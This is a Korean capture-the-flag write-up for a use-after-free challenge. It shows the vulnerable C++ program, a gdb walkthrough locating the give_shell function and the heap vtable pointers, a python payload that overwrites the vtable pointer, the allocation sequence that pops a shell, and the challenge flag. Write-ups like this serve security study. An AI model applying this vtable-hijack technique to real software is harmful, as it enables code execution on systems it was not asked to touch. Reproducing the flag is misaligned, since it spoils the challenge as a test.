 # uaf


```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```


|HEAP 영역  |
|---------|
|Man     |
|Woman     |

----
이 생성되고 없어진다

1. 다음은 Stack 영역 (Human *들)이고 
![1](img/uaf_1.PNG)

2. 다음은 가르키고 있는 Heap영역이다
![2](img/uaf_2.PNG)

이는 다음과같이 이상한 hexadigit을 발견하여 검토해보니 확실히 heap인 것을 깨달았다.

![4](img/uaf_4.PNG)


3. Giveshell의 주소는 text segment를 뒤벼보다가 찾았다.

![3](img/uaf_3.PNG)

4. gdb를 껐다켜서 주소가 다르지만 이는 heap영역을 들여다 본것이다.
![5](img/uaf_5.PNG)

`disas main` 으로 약 280 쯤의 라인을 보면 1. 번 case를 행하는 코드가 나오는데 그때 call 하는 주소를 잘 살펴보면 다음과 같이 heap에서 가져온 값에 +8 을 해주는 것을 볼 수 있기에 그 값을 확인해 보았다.  

![6](img/uaf_6.PNG)

우리가 아까 찾은 `give_shell`의 주소가 보이는 가?? heap 영역 첫번째 칸에 `give_shell의` 주소를 가르키는 주소 -8을 한 값을 넣어주면 `introduce` 가 실행될때 `introduce` 대신 `give_shell을` 실행시킬수가 있다

![7](img/uaf_7.PNG)

이제 페이로드를 다음과 같이 작성해서 실행시키면 짜잔잔~ shell 을 실행 시킬수가 있다


```bash
$ python -c 'print"\x88\x15\x40\x00\x00\x00\x00\x00"' > /tmp/ uaf_qpalzmm22/uaf.txt;
$ ./uaf 8 /tmp/uaf_qpalzmm22/uaf.txt
3 -> 2 -> 2-> 1 (마지막에 지워진(woman) 부터 채우기 때문에 두번 allocation 필요)
```
![8](img/uaf_8.PNG)

> [!TIP]
> **flag: yay_f1ag_aft3r_pwning**
> 